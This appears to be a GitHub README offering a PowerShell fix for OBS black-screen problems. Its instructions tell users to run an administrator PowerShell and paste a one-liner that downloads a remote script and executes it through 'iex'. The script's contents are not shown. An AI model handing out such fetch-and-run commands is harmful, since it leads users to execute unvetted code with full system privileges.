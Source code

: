# READ THIS BEFORE USING

If your OBS doesn't crash, but shows a black screen, try this script and there is a pretty high chance that this will help.
It's a full patch, so it moves all DLLs and such to where they have to be.

## Usage Instructions
* 1. Open 'Windows Powershell' with administrator privileges (MUST RUN AS ADMINISTRATOR OR IT WON'T WORK!)
* 2. Paste the following code into the command line:
    `iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/BlueElixir/aimware-luas/main/OBS%20FIX/obs-fix.ps1'));`
* 3. Wait for the operation to finish

If everything went well, OBS will work too.
